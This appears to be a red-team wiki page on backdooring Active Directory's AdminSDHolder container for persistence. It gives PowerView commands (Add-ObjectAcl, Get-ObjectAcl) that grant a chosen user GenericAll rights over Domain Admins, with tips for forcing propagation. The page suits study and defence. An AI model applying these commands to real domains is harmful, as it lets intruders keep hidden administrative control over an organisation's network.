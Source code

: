 # Backdooring AdminSDHolder for Persistence

## AdminSDHolder

AdminSDHolder is a special AD container with security permissions that is used as a template on other protected AD accounts and groups to prevent accidental and unintended modifications of high privileged accounts and groups like `Domain Admins`. 

Once you have agained Domain Admin privileges, AdminSDHolder can be abused by backdooring it by adding your backdoor user and giving it `GenericAll` privileges, which in turn allows the backdoored user to obtain DA rights whenever.

## Execution

Backdooring the AdminSDHolder container by adding an ACL that provides user `spotless` with `GenericAll` rights for `Domain Admins` group:

```csharp
Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName spotless -Verbose -Rights All
```

![](../../.gitbook/assets/screenshot-from-2018-12-20-20-21-53.png)

This is actually what happens to the container:

![](../../.gitbook/assets/screenshot-from-2018-12-20-20-24-32.png)

After 60+ minutes, the changes will propagate automatically, but if you want to force it \(if you are testing this in your labs\), you can do it via ldp.exe by Modifying DN like so:

![](../../.gitbook/assets/screenshot-from-2018-12-20-21-07-01.png)

Now, confirming that the user spotless has got `GenericAll` privileges against `Domain Admins` group:

```csharp
Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs | ?{$_.IdentityReference -match 'spotless'}
```

![](../../.gitbook/assets/screenshot-from-2018-12-20-21-07-30.png)

We can now hop back to the Domain Admins any time we want to:

![](../../.gitbook/assets/screenshot-from-2018-12-20-21-12-38.png)

In fact, we do not even need to be part of DA group, we still have full access to the DC:

![](../../.gitbook/assets/screenshot-from-2018-12-20-21-19-14.png)

## References

{% embed url="http://www.harmj0y.net/blog/redteaming/abusing-active-directory-permissions-with-powerview/" %}

{% embed url="https://blogs.technet.microsoft.com/askds/2009/05/07/five-common-questions-about-adminsdholder-and-sdprop/" %}

{% embed url="https://adsecurity.org/?p=1906" %}

